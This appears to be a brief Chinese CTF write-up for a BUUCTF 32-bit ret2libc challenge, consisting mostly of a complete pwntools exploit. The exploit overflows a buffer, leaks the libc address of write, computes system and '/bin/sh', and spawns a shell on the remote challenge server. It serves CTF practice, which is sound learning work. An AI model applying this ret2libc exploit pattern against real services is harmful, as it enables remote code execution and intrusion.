 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#铁人三项(第五赛区)_2018_rop)

这题是ret2libc(32位)，checksec一下

# exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',29779)
#p=process('./2018_rop')
elf=ELF('./2018_rop')

main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']

payload1=flat(cyclic(0x8c),p32(write_plt),p32(main),p32(1),p32(write_got),p32(4))
p.sendline(payload1)
write_addr=u32(p.recv(4))
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
print(hex(system_addr))
print(hex(bin_sh))

payload2=flat(cyclic(0x8c),p32(system_addr),p32(1),p32(bin_sh))
p.sendline(payload2)
p.interactive()
```

